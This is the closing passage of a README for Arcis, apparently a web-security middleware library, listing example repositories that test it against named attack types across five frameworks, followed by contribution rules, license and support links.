Five public clone-and-run repos that show Arcis blocking real attack payloads end-to-end. Each one is a small server + an `attack` script that fires 8 payloads (XSS, SQL injection, NoSQL, path traversal, command injection, SSTI, XXE, plus a safe-input control) and reports which ones Arcis blocked.

| Repo | Stack | Adapter |
|---|---|---|
| [`getarcis/arcis-example-express`](https://github.com/getarcis/arcis-example-express) | Node + Express | `arcis()` |
| [`getarcis/arcis-example-nestjs`](https://github.com/getarcis/arcis-example-nestjs) | Node + NestJS | `@arcis/node/nestjs` |
| [`getarcis/arcis-example-bun`](https://github.com/getarcis/arcis-example-bun) | Bun + Hono | `@arcis/node/bun` |
| [`getarcis/arcis-example-fastapi`](https://github.com/getarcis/arcis-example-fastapi) | Python + FastAPI | `arcis.ArcisMiddleware` |
| [`getarcis/arcis-example-gin`](https://github.com/getarcis/arcis-example-gin) | Go + Gin | `arcisgin.Middleware` |

## Documentation

Detailed configuration, API reference, Redis setup, granular middleware usage, and architecture docs are in the [Wiki](https://github.com/Gagancm/arcis/wiki).

---

## Contributing

1. Fork the repo and create your branch from `nwl` (the active development branch)
2. All PRs target `nwl` (`main` is release-only)
3. All changes must pass existing tests (CI runs automatically on PRs)
4. New features require test cases aligned with `spec/TEST_VECTORS.json`
5. Pattern changes in `packages/core/patterns.json` must be reflected in all SDKs

- **Report bugs** via [GitHub Issues](https://github.com/Gagancm/arcis/issues)
- **Suggest features** via [GitHub Discussions](https://github.com/Gagancm/arcis/discussions)

---

## License

Arcis Core is released under the [MIT License](LICENSE).

You are free to use, modify, and distribute Arcis in any project, commercial or otherwise, with no restrictions.

---

## Community & Support

- **GitHub**: [github.com/Gagancm/arcis](https://github.com/Gagancm/arcis)
- **npm**: [@arcis/node](https://www.npmjs.com/package/@arcis/node)
- **PyPI**: [arcis](https://pypi.org/project/arcis/)
- **Wiki**: [Documentation](https://github.com/Gagancm/arcis/wiki)
